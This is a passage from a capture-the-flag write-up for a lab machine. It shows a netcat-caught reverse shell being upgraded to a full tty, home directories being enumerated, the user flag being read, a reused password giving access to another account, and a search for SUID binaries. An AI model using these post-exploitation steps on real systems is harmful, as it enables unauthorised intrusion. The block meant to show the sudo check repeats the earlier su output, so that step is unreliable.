 Success! Using `python` and some `stty raw -echo` magic, we can upgrade our shell to a full `tty`.

```bash
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@corrosion:/var/spool/cron$ ^Z
[1]+  Stopped                 nc -lvnp 9001

┌──(kali㉿kali)-[~]
└─$ stty raw -echo

┌──(kali㉿kali)-[~]
nc -lvnp 9001

tomcat@corrosion:/var/spool/cron$
```

With some simple enumeration, we can find two users on the machine, `jaye` and `randy`, and can grab `user.txt`.

```bash
tomcat@corrosion:/var/spool/cron$ ls /home
jaye  randy
tomcat@corrosion:/var/spool/cron$ ls /home/jaye
ls: cannot open directory '/home/jaye': Permission denied
tomcat@corrosion:/var/spool/cron$ ls /home/randy
Desktop    Downloads  note.txt  Public           Templates  Videos
Documents  Music      Pictures  randombase64.py  user.txt
tomcat@corrosion:/var/spool/cron$ cat /home/randy/user.txt
ca73a018ae6908a7d0ea5d1c269ba4b6
```

## Root Flag

Let's start by trying to `su` to another user by using the password we recovered for `tomcat`

```bash
tomcat@corrosion:/var/spool/cron$ su jaye
Password:
$ whoami
jaye
```

Trying it for `jaye`, it was successful. Do we have any `sudo` priveleges?

```bash
tomcat@corrosion:/var/spool/cron$ su jaye
Password:
$ whoami
jaye
```

Unfortunetly, no. How about `SUID` binaries?

```
$ find / -perm /4000 2> /dev/null
...
/home/jaye/Files/look
...
```
